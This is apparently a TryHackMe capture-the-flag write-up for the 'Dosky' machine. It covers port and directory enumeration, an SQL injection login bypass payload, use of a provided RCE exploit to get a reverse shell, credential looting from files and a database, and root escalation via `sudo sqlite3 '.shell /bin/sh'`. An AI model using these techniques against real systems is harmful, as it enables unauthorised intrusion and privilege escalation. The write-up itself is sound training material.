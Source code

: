 <h1 align="center">Dosky Exploitation</h1> 
<h6 align="center"> Official Writeup for Try Hack Me</h6>

<p>Dosky is a challenge that will test your knowledge of informations security in differents areas such as:</p>
<ui>
	<li>Service Enumeration.</li>
	<li>WebApp Exploitation.</li>
	<li>Vulnerabilities exploitation using exploits.</li>
	<li>Linux Enumeration.</li>
	<li>Privilege Escaletion</li>
</ui>

___
<h3 align="center">Enumeration</h3>
<p>After deploying our virtual machine we have to enumerate services, we do not know what this server is actually running but we can try to figure out it.</p>

<p>First we will start scanning ports with <b>Rustscan</b>, this scanner is fast so we can scan all  ports in a few seconds.</p>

```
rustscan 10.10.159.174 --ulimit 5000 -- -p-

Open 10.10.159.174:22
Open 10.10.159.174:80
Open 10.10.159.174:5000
Open 10.10.159.174:10515

```
<p>There are some services runing, using <b>Nmap</b> now we can receive more information about the ports we know that are oppened</p>

```
PORT          STATE SERVICE VERSION
22/tcp         open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp         open  http    Apache httpd 2.4.29 ((Ubuntu))
5000/tcp       open  http    Werkzeug httpd 1.0.1 (Python 3.6.9)
10515/tcp      open  unknown

```
<ur>
	<li>Openssh is a normal service and we would need to find credentials to have access to it, let's take a look on it after.</li>
	<li>The port 80 is running apache2, as well it is a normal service and we can enumerate looking for information.</li>
	<li>Running on port 5000 we have an interesting service, maybe flask webapp, we will have to see this.</li>
	<li>But now we have a service that cannot be detected by nmap, we will have to see it manually.</li>
</ur>

### Apache2
<p>We have an apache server running, however it does not seem to be anything interesting as it is just a default service page showing.</p>
<p>Even viewing the code, nothing catches my attention, just a few modified texts and in different languages.</p>

### Dosky's Web Page
<p>Entering the service that runs on port 5000 we find a website about a software called Dosky.</p>
<p>A normal website about the service, and reading a little about it I found out what Dosky is: Dosky is a software that is based on server and client side in two separate programs, so you can manage the services that run on your server remotely and in a secure way..</p>
<p>Okay, now that we see this let’s try to exploit something.</p>

<p>First let’s enumerate the directories of the website. We will use gobuster.</p>

```
/admin (Status: 200)
/console (Status: 200)
/download (Status: 200)
/robots.txt (Status: 200)
```

<p>Gobuste was able to find some interesting directories, one of them refers to a console that runs on Flesk applications under development and it is in debug mode, but we would have to have the pin to have access, so we wont lost our time with it.</p>
<p>"/download" can be accessed through the main page, this makes us download a program that is Dosky_Client, can be useful.</p>
<p>The webpage shows us that there is an Bug Bounty program opened for the public to test their aplications. After entering the Bug Bounty page it seens to be under contruction, but it has a email for contact.</p>

`Email: hanny@dosky.com` It can be usefull later.

<h3 align="center">WebApp Exploitation</h3>

<p>Taking a little deeper look at <b>/admin</b> takes us to the administration page that is protected by a login and password form.</p>

<p>This form allows only email to be inserted, which makes it difficult to explore, however we can bypass using a reverse proxy like <b>Burp Suite</b>.</p>

<p>This way I was able to do some tests and finally find out that the application is vulnerable to <b>sql injection</b>, so even without knowing the password we can use the email that we had found on the Bug Bounty page to bypass the authentication.</p>

### SQL Injection Time
<p>With the Burp Suite connected and intercepting all the traffic we should try to log in to the form with the following credentials:</p>

```
Email: hanny@dosky.com
pasword: abc123
```

<p>And the post data would looks like this:</p>

```
email=hanny%40dosky.com&password=abc123
```

<p>So on the email we will inject the payload</p>

`'-- -` and the post request will look like this: `email=hanny%40dosky.com'-- -&password=abc123`
so we had a success.

### Exploiting Dosky
<p>On the dashboard we have an email from someone who participated in the program and found a failure in Dosky Server, we can read the report, which explains about remote code execution found in the software and we have access to the exploit.</p>

<p>We have to download the exploit then run it using python3.</p>

`Usage: exploit.py <Remote Host> <Port>`
<p>It's very simple and first we will just have to set the server's ip and port. The service is then that stranger running on port 10515.</p>

```
Dosky 1.0 RCE PoC
[OK] - Successful connection.
[OK] - Vulnerable!
[*] - Bash payload.
Local Host> <your ip>
Local Port> 4444
[*] - Generating payload.
[*] - Injecting payload:

Listening on 0.0.0.0 4444
0.0.0.0 Connection received on 40744
bash: cannot set terminal process group (900): Inappropriate ioctl for device
bash: no job control in this shell
dosky@dosky:~$ 

```

<p>And we got a reverse shell!!!</p>

<h3 align="center">Linux Enumeration</h3>

<p>We have access to the machine, but we realize that there is a lot of content to be examined, so let's get straight to the point.<br><br> At the root of the system we have a file called <b>.important.txt</b>, this file has important information, dosky's password.</p>

```
dosky@dosky:/$ cat .important.txt

I changed the user Dosky password to: ************
it's easier and everyone will be allowed to handle that user.

```

<p>The shell we have is not so good so we can connect via ssh with the password we got now.</p>
<p>In the dosky user home folder we have the dosky service, which was exploited to give us access to the machine, inside this python file it has the access passwords for the server as well as the username. Looking better the file you can find the flag.</p>

```

                if user == "admin":
                    if passwd == "35e50bad096e65cebe00974daed9beec":
                        print("logged sussfully")
                        logs = """

```

<p>To obtain the first flag, we must connect to the server with Dosky_Client and login with the credentials.<br><br>The web application is found in a folder on the dosky home</p>

<p>It has a database of type sqlite3 that has Hanny's credentials to enter her dashboad, her user in the machine uses the same password.</p>

```
dosky@dosky:~/Web_Site_v2$ cat auth.db

###[#tableauthauthCREATE TABLE "auth" (
        "user"  TEXT NOT NULL,
        "passwd"        TEXT NOT NULL
+hanny@dosky.com********

dosky@dosky:~/Web_Site_v2$ su hanny
password:
hanny@dosky:/home/dosky/Web_Site_v2$ 
```

<p>After switching users we can access hanny's home and find the second flag.</p>

```
hanny@dosky:~$ ls
SSH-Honeypot  user.txt
hanny@dosky:~$
```

<h3 align="center">Privilege Escalation</h3>

<p>To elevate our privilege on the machine there are some things we can do such as using LinPeas or tools like this. </p>
<p>But by running the command <b>sudo -l</b> we realize that we have the possibility to run the <b>SQLIte3</b> as a super user.</p>
<p>Ok! so running the command we can elevate our privilege.</p>

```
sudo sqlite3 /dev/null '.shell /bin/sh'
```

<p>Now we can go to the root's home and get the flag.</p>

<h5 align="center">The End</h5>

